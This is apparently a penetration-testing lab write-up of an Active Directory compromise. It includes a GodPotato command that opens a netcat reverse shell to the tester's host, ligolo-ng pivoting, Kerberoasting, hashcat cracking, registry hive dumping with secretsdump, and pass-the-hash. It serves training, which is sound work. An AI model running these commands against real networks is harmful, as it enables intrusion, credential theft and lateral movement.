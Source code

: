 # Active Directory

I start off with the credentials:

```
Eric.Wallows / EricLikesRunning800
```

I start by enumerating for SMB shares:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that we can connect through evil-winrm and that the user eric.wallows has SeImpersonatePrivilege

<figure><img src="../../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070" %}

So i upload printspoofer to the box:

<figure><img src="../../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

But there is a problem with a persistent shell because evil winrm is not interactive, so i go on another method, download and upload godpotato and launch this command:

```
C:/Users/eric.wallows/Desktop/GodPotato-NET4.exe -cmd "C:/Users/eric.wallows/Desktop/nc.exe -e cmd.exe 192.168.45.157 1234"
```

and i get a reverse shell:

<figure><img src="../../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Ok so whil looking at the IP config, we see that this machine is dual homed:

<figure><img src="../../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

So i need to be able to pivot to access the services on the other subnet, i'll  use ligolo:

```
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng
go build -o agent ./cmd/agent
go build -o proxy ./cmd/proxy
```

From my linux box i can send to target 2 ways, with or without winrm:

without:

```
scp agent.exe user@windows-target:C:\Users\Public\agent.exe
```

with:

```
Invoke-WebRequest -Uri "http://YOUR_IP/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

<figure><img src="../../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

I got some problems with:

```sh
[Feb 21, 2025 - 20:41:38 (CET)] exegol-Offsec ligolo-ng # ./proxy -laddr 0.0.0.0:11601

ERRO[0000] Could not load TLS certificate. Please make sure paths are correct or use -autocert or -selfcert options  certfile=certs/cert.pem keyfile=certs/key.pem
FATA[0000] open certs/cert.pem: no such file or directory
```

and fixed it with:

```
./proxy -laddr 0.0.0.0:11601 -selfcert
```

ok i gave up on chisel and came back on ligolo, after downloading ligolo agent for windows and proxy for linux, on my kali box i ran&#x20;

```
tar -xvzf ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

and on my windows session i ran:

```
./agent.exe --connect 192.168.45.238:11601 -ignore-cert
```

<figure><img src="../../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

Then in another terminal i type:

```
sudo ip route add 10.10.87.0/24 dev ligolo
```

and i go back in the kali ligolo shell and type:

```
session
1
start
```

And i can now ping the internal network:&#x20;

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

Then i start my enumeration over again and look for open ports:

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

then i look for open shares:

<figure><img src="../../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

I go and download everything in Users share and find a lot of stuff:

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

I started looking through each file but it was very long so i told myself that i'll continue enumeration and found something:

```
nxc ldap 10.10.87.140 -u Eric.Wallows -p EricLikesRunning800 --kerberoasting kerb.out
```

<figure><img src="../../../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the password of web\_svc with command:

```
hashcat -m13100 websvc.hash /usr/share/wordlists/rockyou.txt
```

And we confirm we have the good credentials:

<figure><img src="../../../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

Then i went back and privesc to dump hashes:

```
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

was able to secretsdump&#x20;

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL 
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

With the default creds i can connect to celia.almeda: via evil winrm

Then i find a windows.old folder that contains in /windows/system32 a sam and system hive that i export back to my attackbox and crack:

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to use pass the hash to connect as tom admin:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And get the proof.txt on the admin Desktop
